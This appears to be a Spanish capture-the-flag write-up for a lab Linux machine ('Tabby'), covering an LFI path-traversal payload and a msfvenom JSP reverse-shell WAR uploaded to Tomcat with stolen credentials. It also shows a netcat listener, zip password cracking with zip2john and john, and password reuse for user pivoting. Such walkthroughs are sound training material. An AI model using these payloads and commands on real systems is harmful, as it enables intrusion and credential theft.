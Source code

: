 -----
- Tags: #lfi #fileupload #zip2john #john #lxd
---
# Resolución

## Reconocimiento

**OS**: *Linux* 

- ``ping -c 1 10.10.10.194``

```
64 bytes from 10.10.10.194: icmp_seq=1 ttl=63 time=258 ms
```

**TTL** <= "64" = **Linux**

------

**Virtual Hosting**: *``10.10.10.194``* --> http://megahosting.htb/
### NMAP

**Puertos**
```js
# Nmap 7.94SVN scan initiated Mon Nov 25 18:08:02 2024 as: nmap -p- --open --min-rate 5000 -vvv -n -Pn -oN allPorts 10.10.10.194
Nmap scan report for 10.10.10.194
Host is up, received user-set (0.25s latency).
Scanned at 2024-11-25 18:08:02 -03 for 14s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 63
80/tcp   open  http       syn-ack ttl 63
8080/tcp open  http-proxy syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
# Nmap done at Mon Nov 25 18:08:16 2024 -- 1 IP address (1 host up) scanned in 14.84 seconds
```

-----

**Servicios**
```js
# Nmap 7.94SVN scan initiated Mon Nov 25 18:13:16 2024 as: nmap -sCV -p22,80,8080 -oN services 10.10.10.194
Nmap scan report for 10.10.10.194
Host is up (0.25s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov 25 18:13:33 2024 -- 1 IP address (1 host up) scanned in 16.61 seconds
```

## Explotación

### LFI 

Detectamos el parámetro vulnerable http://megahosting.htb/news.php?file= en donde al realizar un **Path Traversal** podemos conseguir un **LFI**.

- view-source:http://megahosting.htb/news.php?file=//..//..//..//..//etc/passwd

----

Detectamos que en el servicio web que corre por el *puerto 8080* se necesitan credenciales válidas para ingresar a un panel de administración de **Tomcat**. La misma web nos indica que el archivo de configuración donde se encuentran las credenciales por defecto está en la ruta ``conf/tomcat-users.xml`` pero con nuestro LFI **no podemos apuntar a dicho archivo**, por lo tanto buscamos por internet el directorio por defecto donde se almacenan las credenciales de Tomcat.

![[Tabby 2.png]]

![[Tabby 4.png]]

![[Tabby 4.png]]

Encontramos investigando que la ruta por defecto donde se almacenan las credenciales es ``/usr/share/tomcat9/etc/tomcat-users.xml`` por lo tanto usamos nuestro LFI para ver el contenido de ese archivo.

![[Tabby 5.png]]

Intentamos ingresar nuevamente al panel de autenticación previo con las **credenciales** que obtuvimos.

![[Tabby 6.png]]

Una vez dentro buscamos por internet "*Formas de subir un archivo a Tomcat*", ya que normalmente en este panel se puede realizar dicha acción de forma sencilla, en este caso **no**.

----

Descubrimos que si envíamos una petición con **``curl``** a una ruta especifica proporcionando las credenciales que obtuvimos previamente podremos lograr subir un archivo.

![[Tabby 7.png]]

Por lo tanto lo primero que realizamos es crear un binario con extensión ``.war`` que nos entable una **Reverse Shell** al ser ejecutado, por lo tanto es necesario que sea con *Java*. ``msfvenom -l payloads | grep java  ``

- **``msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.25 LPORT=443 -f war -o reverse.war``**

Luego realizamos el ``curl`` que suba el archivo malicioso a la web en la ruta que vimos en el foro.

- **``curl -s -u 'tomcat:$3cureP4s5w0rd123!' "http://10.10.10.194:8080/manager/text/deploy?path=/reverse" --upload-file reverse.war``**

Ahora si quisieramos revisar si el archivo se subió correctamente podríamos realizar un ``curl`` a la siguiente ruta ``/manager/text/list``

- **``curl -s -u 'tomcat:$3cureP4s5w0rd123!' -X GET "http://10.10.10.194:8080/manager/text/list"``**. De esta forma listamos los archivos que **están subidos en la web actualmente** y veríamos nuestro "*reverse*".

------

Una vez subido el archivo a la web simplemente nos ponemos en escucha con **``nc -nlvp 443``** y ingresamos a la URL http://megahosting.htb:8080 pero **añadiéndole el nombre de nuestro binario malicioso** que ya está subido, quedando tal que así.

- http://megahosting.htb:8080/reverse

De esta forma el archivo malicioso será interpretado y entablaremos la **Reverse Shell** ganando así el acceso a la máquina.

![[Tabby 8.png]]

## Escalada de Privilegios

Una vez dentro de la máquina víctima veremos que no tenemos acceso al directorio ``/home`` del usuario **``ash``**, por lo tanto tendremos que conseguir acceso a el y luego procedemos con la **escalada de privilegios** al usuario **root**.

-----
### User Pivoting usuario ASH

Encontramos en el directorio ``/var/www/html/files`` un archivo **``backup.zip``** que no podemos descomprimir ya que **nos pide contraseña**. Algo que podemos hacer en estos casos es convertir todo el contenido del archivo a base64 y meter dicho contenido en un archivo en nuestra máquina de atacante.

- ``base64 -w 0 16162020_backup.zip ; echo``

De esta forma tendremos un archivo llamado ``backup.zip`` en nuestra máquina de atacante con el contenido decodificado dentro, por lo tanto si realizamos un ``unzip backup.zip`` nos volverá a pedir contraseña pero como el archivo lo tenemos en nuestro control podremos realizar un ataque de fuerza bruta.

A la herramienta **``zip2john``** le pasaremos el archivo ``backup.zip`` este nos devolverá un HASH, dicho HASH, es decir la respuesta, la meteremos en un archivo llamado **``hash``**.

- **``zip2john backup.zip > hash``**

Ese hash que nos devuelve la herramienta lo pasaremos a la herramienta **``john``**.

- **``john -w:/usr/share/wordlists/rockyou.txt hash``**

Gracias a esto descubrimos que la contraseña del archivo ``.zip`` es **``admin@it``**, por lo tanto lo descomprimimos y dentro no encontramos nada de valor pero descubrimos que esta misma credencial se reutiliza en el usuario **``ash``**, por lo tanto con **``su ash``** accedemos.

### Escalada ROOT

No funcionó pero deberíamos **abusar** del grupo ``lxd``.